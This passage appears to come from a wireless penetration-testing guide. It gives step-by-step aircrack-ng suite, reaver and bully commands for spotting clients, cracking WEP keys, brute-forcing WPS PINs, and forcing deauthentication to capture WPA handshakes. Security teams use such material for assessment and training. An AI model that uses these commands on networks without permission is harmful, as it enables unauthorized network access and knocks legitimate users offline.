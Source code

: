 #### 1.3 Client Detection

```bash
# Monitor specific network for clients
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w target_network wlan0mon

# Look for active clients (stations)
- Note client MAC addresses
- Monitor traffic patterns
- Identify device types (phone, laptop, etc.)
```

### Phase 2: Vulnerability Assessment

#### 2.1 WEP Network Testing

```bash
# Capture WEP traffic
sudo airodump-ng -c 6 --bssid [TARGET_MAC] -w wep_capture wlan0mon

# Generate traffic if needed
sudo aireplay-ng -1 0 -a [AP_MAC] wlan0mon  # Fake authentication
sudo aireplay-ng -3 -b [AP_MAC] wlan0mon     # ARP replay attack

# Crack WEP key
sudo aircrack-ng wep_capture-01.cap
```

#### 2.2 WPS Testing

```bash
# Scan for WPS-enabled networks
wash -i wlan0mon

# Test WPS PIN vulnerability
sudo reaver -i wlan0mon -b [TARGET_MAC] -vv

# Faster WPS testing with bully
sudo bully -b [TARGET_MAC] -c 6 wlan0mon
```

#### 2.3 WPA/WPA2 Testing (Preparation)

```bash
# Capture handshake
sudo airodump-ng -c 6 --bssid [TARGET_MAC] -w handshake wlan0mon

# Trigger deauthentication (in separate terminal)
sudo aireplay-ng -0 5 -a [AP_MAC] -c [CLIENT_MAC] wlan0mon

# Verify handshake capture
aircrack-ng handshake-01.cap
```

